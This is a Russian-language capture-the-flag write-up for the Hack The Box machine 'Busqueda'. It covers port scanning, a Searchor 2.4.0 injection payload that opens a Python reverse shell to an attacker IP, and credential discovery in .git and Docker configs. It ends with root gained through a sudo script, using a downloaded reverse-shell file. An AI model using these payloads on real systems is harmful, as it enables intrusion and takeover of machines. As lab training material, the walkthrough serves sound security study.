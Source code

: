 # Busqueda
:white_check_mark:  [**Searchor 2.4.0 exploit**](#searchor2.4.0)

___

## Port scan
Сканируем ip командой:
```
nmap -sC -sV busqueda.htb
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://searcher.htb/
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Из вывода nmap, мы можем заметить поддомен по которому доступен сайт: **searcher.htb**. Добавим его в /etc/hosts/.

<a name="searchor2.4.0"></a>

## Searchor 2.4.0 exploit

Главная страница сайта:

![](../assets/Busqueda/1.png)

Внизу страницы мы можем найти версию веб-сервиса(Searchor 2.4.0):

![](../assets/Busqueda/2.png)

В интернете мы можем найти [эксплоит](https://github.com/jonnyzar/POC-Searchor-2.4.2) для данной версии веб-сервиса.

Запускаем слушатель и отправляем полезную нагрузку:

```
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.16.23',9898));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Получаем обратную оболочку.

![](../assets/Busqueda/3.png)

## Privesc

В директории с файламы сайта мы можем обнаружить директорию .git. Перейдем в нее и так обнаружим конфиг, в котором лежит пароль от нашего пользователя.

![](../assets/Busqueda/4.png)
![](../assets/Busqueda/5.png)

Просмотрим команды, которые мы можем выполнять от sudo.
![](../assets/Busqueda/6.png)

Запустим скрипт system-checkup.py. Он нам дает подсказку по его использованию:
![](../assets/Busqueda/7.png)

Команда full-checkup вызывает ошибку. Используем остальные две команды. Выведем список доступных контейнеров. Испектируем docker контейнеры.

```
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' 960873171e2e
```

![](../assets/Busqueda/8.png)

Мы обнаружили пароль от gitea. Добавим поддомен(gitea.searcher.htb), который мы обнаружили ранее в /etc/hosts/. Перейдем на поддомен и залогинимся с известным паролем.

![](../assets/Busqueda/9.png)

В репозитории мы можем обнаружить скрипт, который мы запускали ранее(system-checkup.py).

![](../assets/Busqueda/10.png)

Данный скрипт запускает исполняемый файл full-checkup.py.

![](../assets/Busqueda/11.png)

Создадим файл full-checkup.py на атакующей машине с кодом получения обратной оболочки.

```
#!/usr/bin/python3
import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.12",5533));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```

Запускаем веб-сервер на атакующей машине. Скачаем этот файл на атакуемую машину, выдадим ему права и запустим команду, которую мы можем запускать от sudo.

```
wget http://10.10.14.12:6666/full-checkup.sh && chmod +x full-checkup.sh && sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

Получаем root.

![](../assets/Busqueda/12.png)
